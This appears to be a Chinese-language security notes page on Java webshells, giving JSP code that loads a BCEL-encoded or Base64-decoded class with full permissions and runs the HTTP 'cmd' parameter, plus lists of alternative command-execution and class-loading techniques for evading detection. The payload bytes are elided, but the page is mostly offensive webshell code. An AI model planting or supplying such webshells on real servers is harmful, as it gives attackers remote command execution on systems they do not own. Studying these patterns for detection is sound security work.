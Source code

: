 WebShell
========================================

BCEL字节码
----------------------------------------
.. code:: java

    String bcelCode = "...";
    response.getOutputStream().write(String.valueOf(new ClassLoader().loadClass(bcelCode).getConstructor(String.class).newInstance(request.getParameter("cmd")).toString()).getBytes());

自定义类加载器
----------------------------------------
.. code:: java

    response.getOutputStream().write(new ClassLoader() {
        @Override
        public Class<?> loadClass(String name) throws ClassNotFoundException {
            if (name.contains("shell")) {
                return findClass(name);
            }
            return super.loadClass(name);
        }

        @Override
        protected Class<?> findClass(String name) throws ClassNotFoundException {
            try {
                byte[] bytes = Base64.getDecoder().decode("...");
                PermissionCollection pc = new Permissions();
                pc.add(new AllPermission());
                ProtectionDomain protectionDomain = new ProtectionDomain(new CodeSource(null, (Certificate[]) null), pc, this, null);
                return this.defineClass(name, bytes, 0, bytes.length, protectionDomain);
            } catch (Exception e) {
                e.printStackTrace();
            }
            return super.findClass(name);
        }
    }.loadClass("shell").getConstructor(String.class).newInstance(request.getParameter("cmd")).toString().getBytes());
    %>

执行命令变式
----------------------------------------
- java.lang.ProcessBuilder
- MethodAccessor.invoke
- Method.invoke
- TemplatesImpl

其他Shell变式
----------------------------------------
- ScriptEngine.eval
- URLClassLoader
- ToolProvider.getSystemJavaCompiler
- jdk.nashorn.internal.runtime.ScriptLoader
- ObjectInputStream.resolveClass
